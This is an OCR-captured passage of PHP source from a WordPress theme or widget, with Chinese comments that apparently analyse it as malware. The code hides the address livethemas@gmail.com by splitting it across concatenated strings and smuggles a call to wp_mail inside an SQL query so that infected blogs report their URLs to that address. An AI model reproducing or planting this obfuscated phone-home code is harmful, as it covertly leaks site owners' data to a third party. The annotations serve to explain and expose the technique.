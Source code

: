         
        //如果 _is_widget_active_ option内容为空,即表示没有被感染过
        if (!$widget_yes) :
        
        global $wpdb, $post;
        //取出存在已经通过的评论（不包括trackback/pingback）的文章
        // post_author 为 livethemas@gmail.com 的文章，肯定是没有的
    
        $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND post_author="li".$coma."vethe".$com_type."mas".$coma."@".$com_is_approved."gm".$post_auth_comments."ail".$coma.".".$coma."co"."m" AND post_password="" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
        if (!empty($post->post_password)) { 
            if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) { 
                if(is_feed()) { 
                    $output=__("There is no excerpt because this is a protected post.");
                } else {
                    $output=get_the_password_form();
                }
            }
        }
        if(!isset($fixed_tags)) $fixed_tags=1;
        if(!isset($filters)) $filters=$home_filter; 
        //$gettextcomments实际上为 wp_mail
        if(!isset($gettextcomments)) $gettextcomments=$pref_filters.$contentmore;
        if(!isset($tag_aditional)) $tag_aditional="div";
        
        //这里$sh_cont即为 livethemas@gmail.com
        if(!isset($sh_cont)) $sh_cont=substr($sq1, stripos($sq1, "live"), 20);#
        if(!isset($more_text_link)) $more_text_link="Continue reading this entry";  
        if(!isset($isshowdots)) $isshowdots=1;
        
        $comments=$wpdb->get_results($sql); 
        if($fakeit == 2) { 
            $text=$post->post_content;
        } elseif($fakeit == 1) { 
            $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
        } else { 
            $text=$post->post_excerpt;
        }
        //开始调用　wp_mail 向 livethemas@gmail.com 发送邮件，标题和内容都是被感染的博客的URL 地址
        $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND comment_content=". call_user_func_array($gettextcomments, array($sh_cont, $home_filter, $filters)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
        if($text_length < 0) {
            $output=$text;
        } else {
            if(!$no_more &#038;&#038; strpos($text, "<!--more-->")) {
                $text=explode("<!--more-->", $text, 2);
                $l=count($text[0]);
                $more_link=1;
                //执行这一句时就开始发邮件了。
                $comments=$wpdb->get_results($sql);
            } else {
                $text=explode(" ", $text);
                if(count($text) > $text_length) {
                    $l=$text_length;
                    $ellipsis=1;
                } else {
                    $l=count($text);
                    $link_text_more="";